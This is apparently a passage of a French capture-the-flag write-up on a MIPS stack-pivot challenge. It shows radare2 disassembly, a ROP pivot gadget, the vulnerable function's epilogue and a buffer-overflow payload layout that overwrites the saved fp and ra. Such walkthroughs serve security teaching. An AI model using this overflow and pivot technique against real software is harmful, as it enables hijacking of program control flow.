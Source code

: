     │           0x00000df0      2000c227       addiu v0, fp, 0x20
    │           0x00000df4      25204000       move a0, v0
    │           0x00000df8      4880828f       lw v0, -sym.imp.puts(gp)    ; [0x12038:4]=0xec0 sym.imp.puts
    │           0x00000dfc      25c84000       move t9, v0
    │           0x00000e00      09f82003       jalr t9
    │           0x00000e04      00000000       nop
    │           0x00000e08      1000dc8f       lw gp, (var_10h_2)
    │           0x00000e0c      1c00c48f       lw a0, (arg_1ch)
    │           0x00000e10      3c80828f       lw v0, -sym.imp.fclose(gp)  ; [0x1202c:4]=0xee0 sym.imp.fclose
    │           0x00000e14      25c84000       move t9, v0
    │           0x00000e18      09f82003       jalr t9
    │           0x00000e1c      00000000       nop
    │           0x00000e20      1000dc8f       lw gp, (var_10h_2)
    │           0x00000e24      1c00c0af       sw zero, (arg_1ch)
    │           0x00000e28      25200000       move a0, zero
    │           0x00000e2c      4080828f       lw v0, -sym.imp.exit(gp)    ; [0x12030:4]=0xed0 sym.imp.exit
    │           0x00000e30      25c84000       move t9, v0
    │           0x00000e34      09f82003       jalr t9
    │           0x00000e38      00000000       nop
    └           0x00000e3c      00000000       nop


## Construction de l'attaque

### Pivoter la pile

Pour pivoter la pile on utilise le gadget

    0x00400cd4 move sp, fp; lw ra, 8(sp); lw fp, 4(sp); jr ra; addiu sp, sp, 0xc

- move sp, fp   ; pivote : sp <= fp
- lw ra, 8(sp)  ; charge ra avec sp[2]
- lw fp, 4(sp)  ; charge fp avec sp[1]
- jr ra              ; jump ra 
- addiu sp, sp, 0xc  ; sp=sp+12

On peut maitriser la valeur initiale de `sp`.

Pour cela il faut rappeller ce qui se passe à l'épilogue de pwnme.

    │           0x00400c48      3c00bf8f       lw ra, (var_3ch)
    │           0x00400c4c      3800be8f       lw fp, (var_38h)
    │           0x00400c50      4000bd27       addiu sp, sp, 0x40
    │           0x00400c54      0800e003       jr ra
    └           0x00400c58      00000000       nop

Juste avant je saut final, on a restoré les valeurs de fp et ra présentes sur la pile et donc écrasées par notre message qui aurra cette forme :

[pad de 32 octets][fp][ra][gadget pivot]

La chaine de ROP pour le pivot, après une message de débordement jusqu'à la sauvegarde de fp : 0x20 octets.
